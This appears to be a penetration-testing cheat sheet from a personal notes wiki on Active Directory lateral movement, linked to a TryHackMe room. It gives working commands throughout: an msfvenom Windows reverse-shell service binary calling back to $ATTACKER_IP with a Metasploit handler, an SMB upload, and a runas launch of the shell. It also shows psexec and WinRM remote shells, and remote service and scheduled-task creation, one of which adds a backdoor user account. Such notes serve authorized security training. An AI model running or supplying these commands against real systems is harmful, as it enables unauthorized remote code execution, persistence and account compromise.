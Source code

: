 # AD-Lateral-Movement - Spawning Processes Remotely
#### !! WARNING !!
#### BEWARE REQUIREMENTS 
####  !! WARNING !!
- Access and Access to how spawning - ssh access 

See [[Windows-Processes]] for more information on Service and Processes. For ease of user the [[MSFvenom-Payloads]] for exe-service.
```bash
msfvenom -p windows/shell/reverse_tcp -f exe-service LHOST=$ATTACKER_IP LPORT=4444 -o myservice.exe
```

Requires some file infiltration for example upload with smbclient, the user **must have the correct security context**. 
```bash
smbclient -c 'put myservice.exe' -U <username> -W <workgroup> '//<domain>/share$' <Password> 
msfconsole -q -x "use exploit/multi/handler; set payload windows/shell/reverse_tcp; set LHOST $ATTACKER_IP; set LPORT 4444;exploit"
```

**sc.exe doesn't allow specifying credentials use runas** 

```shell-session
runas /netonly /user:<DOMAIN>\<username> "c:\reverse\shell.exe <options> $ATTACKER_IP $PORT"
```


## Psexec
[Psexec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec) of Sysinternal Tools is used by Admins so will less likely blocked by Firewall. See [[Sysinternals-Hub]] for more Sysinternals. It is also an Impacket tool see [[Impacket-Cheatsheet]]
Requires:
1. Port 445/TCP (SMB) 
1. Requires: `Administrator Group` Membership


`psexec` connects to `Admin$` share and uploads a service binary with the name  `psexesvc.exe` then connects to service control manager to create and run a service named `PSEXESVC` and associates the service binary with `C:\Windows\psexesvc.exe`, finally creating named pipes to handles Std(in/out/err).

```powershell
psexec64.exe \\$IP -u Administrator -p ******** -i cmd.exe
```


## Remote Process Creation Using WinRM
[Windows Remote Management](https://docs.microsoft.com/en-us/windows/win32/winrm/portal) (WinRM) is a web-based protocol used to send Powershell commands to Windows hosts remotely, with most Windows Server installations have WinRM enabled by default.

1. Ports 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)
2. Requires: `Remote Management Users Group` Membership

Connect to remote powershell session:
```powershell
winrs.exe -u:Administrator -p:********** -r:$target cmd
```

[Lateral movement and pivoting THM Room](https://tryhackme.com/room/lateralmovementandpivoting) suggests that you can accomplish a similar thing with a Powershell by creating a PSCredential object:
```powershell
$username = 'Administrator';
$password = 'Mypass123';
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force; 
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;
```

Enter-PSSession cmdlet to create and interactive session:
```powershell
Enter-PSSession -Computername $TARGET -Credential $credential
```

Using Invoke-Command cmdlet we can run ScriptBlocks remote via WinRM. 
```powershell
Invoke-Command -Computername $TARGET -Credential $credential -ScriptBlock {whoami}
```


## Remote Service Creation with `sc`
**sc.exe doesn't allow specifying credentials use runas** 

1. Ports:  
	1. 135/TCP, 49152-65535/TCP (DCE/RPC)
	2. 445/TCP (RPC over SMB Named Pipes)
	3. 139/TCP (RPC over SMB Named Pipes)
2.  Requires: `Administrator Group` Membership

Windows services can be leveraged to execute a command when started, `sc` we create a service on a remote host and attempt to connect to the Service Control Manager(SVCCTL) remote service program through RPC in multiple ways.
1. DCE/RPC `Request -> EMP(port 135) -> Response=SVCCTL is <dynamic port>` Then `RPC Bind to SVCCTL on <dynamic port>`
2. If the above failes `sc` connects to port `Named pipe <\pipe\svcctl\>` on port 445 (SMB or 139 ()

```powershell
sc.exe \\$TARGET create Badbadservice binPath= "net user friend Pass123 /add" start= auto
sc.exe \\$TARGET start Badbadservice
# To Stop and Delete service 
sc.exe \\$TARGET stop Badbadservice
sc.exe \\$TARGET delete Badbadservice
```


## Creating Scheduled Tasks Remotely
`schtasks` can create tasks remotely with `/s` flag.
```powershell
schtasks /s $TARGET /RU "SYSTEM" /create /tn "Badtask" /tr "<command/payload to execute>" /sc ONCE /sd 01/01/1970 /st 00:00 

schtasks /s $TARGET /run /TN "Badtask" 
# To delete
schtasks /S $TARGET /TN "Badtask" /DELETE /F
```

## References
[Lateral movement and pivoting THM Room](https://tryhackme.com/room/lateralmovementandpivoting)
[Windows Remote Management](https://docs.microsoft.com/en-us/windows/win32/winrm/portal) 
[Psexec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec)
[Metasploit PsExec](https://www.offensive-security.com/metasploit-unleashed/psexec-pass-hash/)
[UAC Remote Restriction Documentation](https://docs.microsoft.com/en-us/troubleshoot/windows-server/windows-security/user-account-control-and-remote-restriction) 